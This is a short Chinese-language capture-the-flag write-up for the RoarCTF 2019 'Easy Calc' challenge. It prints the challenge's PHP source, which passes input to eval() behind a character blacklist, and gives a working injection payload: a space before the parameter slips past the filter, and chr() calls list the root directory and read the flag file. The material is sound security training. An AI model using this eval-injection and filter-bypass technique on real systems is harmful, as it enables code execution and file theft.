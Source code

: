 # easy_calc
题目地址  [地址](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Calc)
## 1.查看页面源码
![图片1](vx_images/1782041268394.png)
然后ajax请求一个后台地址进行公式计算获得计算结果，猜测后台是eval，试过cat /flag 、1+1；cat /flag 均无效，加%0a也是无效（/m的作用），准备base64编码绕过，失败，最后查询wp，获得思路，首先第一步请求ajax地址，但不带参数，获得网页源码，这一步在自己做时是没有思路的，获得源码的意识欠缺。
```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];  //回车 制表符 单引号 双引号
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) { 
                        die("what are you want to do?"); 
                }
        }
        eval('echo '.$str.';');
}

// /i (忽略大小写)
// /g (全文查找出现的所有匹配字符)
// /m (多行查找)
// /gi(全文查找、忽略大小写)
// /ig(全文查找、忽略大小写)

// i 模式中的字符将同时匹配大小写字母
// m 字符串视为多行
// s 将字符串视为单行，换行符作为普通字符
// x 将模式中的空白忽略
// e preg_replace() 函数在替换字符串中对逆向引用作正常的替换，将其作为 PHP 代码求值，并用其结果来替换所搜索的字符串。
// A 强制仅从目标字符串的开头开始匹配
// D 模式中的 $ 元字符仅匹配目标字符串的结尾
// U 匹配最近的字符串
// u 模式字符串被当成 UTF-8
?>
```
尝试读取 cat /flag 因有 / 失败，后来通过var_dump(scandir(chr(47))
![2021-01-24_09-14](vx_images/5709114138395.png)

WriteUp

> http://node3.buuoj.cn:28448/calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

![2021-01-24_09-34](vx_images/5882016695918.png)